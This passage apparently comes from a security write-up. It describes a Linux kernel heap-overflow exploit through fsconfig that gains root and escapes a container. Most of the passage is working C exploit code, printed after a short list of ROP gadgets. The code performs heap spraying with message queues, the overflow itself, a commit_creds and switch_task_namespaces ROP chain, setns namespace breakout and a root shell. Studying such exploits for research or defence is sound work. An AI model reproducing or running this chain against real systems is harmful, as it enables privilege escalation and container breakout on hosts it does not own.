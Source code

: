 Scanning for nice gadgets, I came to use the following:

stack pivot: `mov rsp, rax ; pop rbp ; ret;`

set rdi: `pop rdi ; ret ;`

set rsi: `pop rsi ; ret ;`

set rdi from rax: `test esi, esi ; cmovne rdi, rax ; mov rax, qword [rdi] ; pop rbp ; ret ;`

The goal of our ROP chain was ultimately to become root in the root namespace. I borrowed Andy Nguyen’s ROP chain strategy to `commit_cred(prepare_kernel_cred(NULL))` and `switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)` to achieve that goal. After performing those operations, I relied on the kpti trampoline from `swapgs_and_return_to_userspace` to successfully and gracefully return back to userland. All that we need to fully escape now is to do the classic [`setns` tricks](https://www.cyberark.com/resources/threat-research-blog/the-route-to-root-container-escape-using-kernel-exploitation) in container breakouts.

The following snippet of code shows what I did to achieve privilege escalation and containerization escape:

void dump_flag() { char buf[200] = {0}; for (int i = 0; i < 4194304; i++) { snprintf(buf, sizeof(buf), "/proc/%d/root/flag/flag", i); int fd = open(buf, O_RDONLY); if (fd < 0) { continue; } puts("🎲🎲🎲🎲🎲🎲🎲🎲🎲🎲"); read(fd, buf, 100); write(1, buf, 100); puts("🎲🎲🎲🎲🎲🎲🎲🎲🎲🎲"); close(fd); } return; } __attribute__((naked)) win() { asm volatile( "mov rbp, rsp;" "and rsp, -0xf;" "call dump_flag;" "mov rsp, rbp;" "ret;"); } void pwned() { write(1, "ROOOOOOOOOOOT\n", 14); setns(open("/proc/1/ns/mnt", O_RDONLY), 0); setns(open("/proc/1/ns/pid", O_RDONLY), 0); setns(open("/proc/1/ns/net", O_RDONLY), 0); win(); char *args[] = {"/bin/sh", NULL}; execve("/bin/sh", args, NULL); _exit(0); } void do_win(uint64_t kmalloc_512, uint64_t kmalloc_1024) { int size = 0x1000; int target = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT); char buffer[0x2000] = {0}, recieved[0x2000] = {0}; char pat[0x40] = {0}; msg* message = (msg*)buffer; memset(buffer, 0x44, sizeof(buffer)); int ready = 0; int ignition_target = -1; uint64_t next_target = kmalloc_1024 + 0x440; uint64_t prev_target = kmalloc_512 + 0x440; uint64_t free_target = kmalloc_1024 - 0x20; uint64_t make_sec_happy = kmalloc_512 - 0x20; stuff_4k(16); int targets[P_SPRAY] = {0}; while (!ready) { for (int i = 0; i <P_SPRAY; i++) { memset(buffer, 0x41+i, sizeof(buffer)); targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT); send_msg(targets[i], message, size - 0x30, 0); } get_msg(targets[0], recieved, size-0x30, 0, IPC_NOWAIT | MSG_NOERROR | MSG_COPY); fd = fsopen("ext4", 0); if (fd < 0) { puts("Opening"); exit(-1); } strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"); for (int i = 0; i < 117; i++) { fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0); } puts("[*] Done heap overflow"); char evil[0x40] = {0}; uint64_t *evil_ptr = (uint64_t *)evil; memset(evil, 0x41, 0x30); evil_ptr[0] = next_target; evil_ptr[1] = prev_target; evil_ptr[4] = free_target; evil_ptr[5] = make_sec_happy; if(strlen(evil) != 0x30) { puts("unable to continue given heap addresses"); exit(-1); } puts("[*] Overflowing..."); fsconfig(fd, FSCONFIG_SET_STRING, evil, "\x00", 0); puts("check heap to check preparedness for ignition"); stuff_4k(16); for (int i = 0; i <P_SPRAY; i++) { memset(recieved, 0, sizeof(recieved)); int ret = get_msg_no_err(targets[i], recieved, size+0x50-0x30, 0, IPC_NOWAIT | MSG_NOERROR | MSG_COPY); if (ret < 0) { ready = 1; ignition_target = i; break; } } if (!ready) { puts("nothing ready for ignition, trying again"); stuff_4k(16); } } char overwrite[0x300] = {0}; memset(overwrite, 0x41, sizeof(overwrite)); uint64_t *overwrite_ptr = (uint64_t *)overwrite; overwrite_ptr[1] = kmalloc_512 + 0x50; uint64_t user_rflags, user_cs, user_ss, user_sp; asm volatile( "mov %0, %%cs\n" "mov %1, %%ss\n" "mov %2, %%rsp\n" "pushfq\n" "pop %3\n" : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) ); uint64_t chain[] = { pop_rdi, 0, prepare_kernel_cred, pop_rsi, 0xbaadbabe, cmov_rdi_rax_esi_nz_pop_rbp, 0xdeadbeef, commit_creds, pop_rdi, 1, find_task_by_vpid, pop_rsi, 0xbaadbabe, cmov_rdi_rax_esi_nz_pop_rbp, 0xdeadbeef, pop_rsi, init_nsproxy, switch_task_namespaces, kpti_trampoline, 0xdeadbeef, 0xbaadf00d, (uint64_t)pwned, user_cs, user_rflags, user_sp & 0xffffffffffffff00, user_ss, }; memcpy(&overwrite_ptr[2], chain, sizeof(chain)); for (int i = 0; i <P_SPRAY; i++) { get_msg(targets[i], recieved, size-0x30, 0, IPC_NOWAIT | MSG_NOERROR); } for (int i = 0; i <ROP_SPRAY; i++) { send_msg(rop_msg_qid[i], overwrite, 0x300 - 0x30, 0); } deplete_512(); deplete_4k(); puts("[*] Attempt at igniting ROP!"); for (int i = 0; i <PIPES; i++) { close(pipefd[i][0]); close(pipefd[i][1]); } }
